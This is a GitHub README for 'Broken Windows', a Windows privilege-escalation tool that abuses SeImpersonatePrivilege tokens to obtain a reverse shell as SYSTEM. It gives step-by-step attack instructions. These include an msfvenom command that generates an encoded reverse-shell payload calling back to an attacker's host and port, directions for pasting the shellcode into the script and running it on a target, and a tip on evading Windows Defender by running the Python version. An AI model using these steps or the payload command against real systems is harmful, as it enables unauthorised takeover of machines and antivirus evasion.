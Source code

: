 # Broken-Windows

## What is Broken Windows?

It's a privilege escalation tool for Windows. It leverages access tokens that have the SeImpersonatePrivilege to eventually pop a reverse shell as SYSTEM. It can be run through the Python interpreter if it's available on your target system, or it can be run as a standalone executable.

## How can I convert the Broken Windows.py file to an executable?

Just follow these steps.

```
pip install pyinstaller
```
```
pyinstaller --onefile --console "/path/to/Broken Windows.py"
```

```Broken Windows.exe``` will be in the ```dist``` folder created by pyinstaller.

## How do I use it?

Generate a reverse shell with msfvenom. Remember to remove x64 from the command if your target system is 32 bit. If msfvenom fails to encode your reverse shell due to one of the bad bytes, run the command again.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=MACHINE_IP LPORT=PORT -f python -b "\x00,\xFF,\x0A,\x0D" -e x86/shikata_ga_nai -n 32
```

Copy the shellcode outputted by msfvenom and paste it into the ```BrokenWindows.py``` file, in the ```main``` function.

Then, simply execute ```Broken Windows.py``` or ```Broken Windows.exe``` on your target system:

![CMD](https://user-images.githubusercontent.com/16895391/129423983-a96c33b5-e0d9-458b-abee-128fb2ff0c5b.PNG)

![PYTHON](https://user-images.githubusercontent.com/16895391/129424058-05a8ed5d-4d8d-4e3b-9bac-c5ef72ffe6c9.PNG)

You (hopefully!) will receive a reverse shell as SYSTEM:

![SHELL](https://user-images.githubusercontent.com/16895391/129421207-727ed0e5-8175-4fb7-aa0a-0c1b3a77741c.PNG)

## Tips

I have noticed that Windows Defender (and possibly other AVs) **do not** detect any threats if you use the python interpreter to run Broken Windows instead of an executable. If you use the executable, most AVs run-time analysis will detect the reverse shell.
